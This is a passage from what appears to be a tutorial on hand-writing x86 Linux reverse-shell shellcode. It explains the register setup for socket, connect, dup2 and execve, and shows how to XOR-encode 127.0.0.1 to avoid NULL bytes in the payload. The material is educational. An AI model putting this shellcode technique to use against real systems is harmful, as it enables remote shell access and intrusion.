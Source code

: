 ```nasm
; Store int sockfd in ebx;
; reused in connect socketcall as 3 = sys_connect 
; reused in dup2 as int oldfd = sockfd = 3
mov ebx, eax
```

After an `INT 0x80`, the return value of the called function is stored in `EAX`. The last instruction shown above stores the file descriptor returned by `socket` (called `sockfd` in the C program) in `EBX` for future use. Note that the value returned for `sockfd` happens to be `0x3` in this case, which is later passed as the function number to `socketcall` for `connect` and then as `sockfd` to `dup2` as its first argument. The value of `0x3` remains in the `EBX` register until the call to `execve`.

#### Create an IP Address Pointer
Now, the IP address of `127.0.0.1` is created for use in the IP socket address structure `addr` as the value pointed to by `sin_addr`. The 32-bit (4 byte) IP address can be represented in hexadecimal using the following bit of Python.

```python
>>> import socket
>>> def hex_inet_aton(ip_str):
...     ip_bytes = socket.inet_aton(str(ip_str))
...     ip_htonl = int.from_bytes(ip_bytes, "big")
...     return '0x' + '%08x' % socket.htonl(ip_htonl)
... 
>>> ip_str = "127.0.0.1"
>>> hex_inet_aton(ip_str)
'0x0100007f'
>>>
```

This shows that the value of IP address `127.0.0.1` represented in hexadecimal network byte order is `0x0100007f`. Normally, this value could be stored on the stack using `PUSH 0x0100007f`, however this will result in two `NULL` bytes in the resulting shellcode. To account for this, the `XOR` instruction is used, to return the value of `0x0100007f` in the `ECX` register without explicitly referencing it.

```nasm
; Create an IP Address Pointer
; const char* ip = "127.0.0.1";
mov edi, 0xffffffff ; 255.255.255.255
mov ecx, 0xfeffff80 ; 128.255.255.254
xor ecx, edi        ; 0x0100007f = 127.0.0.1
```

In this example, the value of `0xffffffff` which can be thought of in dot-decimal notation as `255.255.255.255` is moved into `EDI`. Now, the hexadecimal value of `0xfeffff80` is moved into `ECX`. This value can be thought of in dot-decimal notation as `128.255.255.254`. Notice that when `128.255.255.254` is "subtracted" from `255.255.255.255`, the "difference" is `127.0.0.1`.

Thinking of these values in binary allows for a more precise explanation of `XOR`. The `XOR` operation returns `TRUE` only when the compared bitwise values differ. In other words, on a bit-by-bit basis, any given bit in a specified destination register will return `1` if and only if the value of the respective (same) bit in the source and destination register at the time of the `XOR` operation are different. 
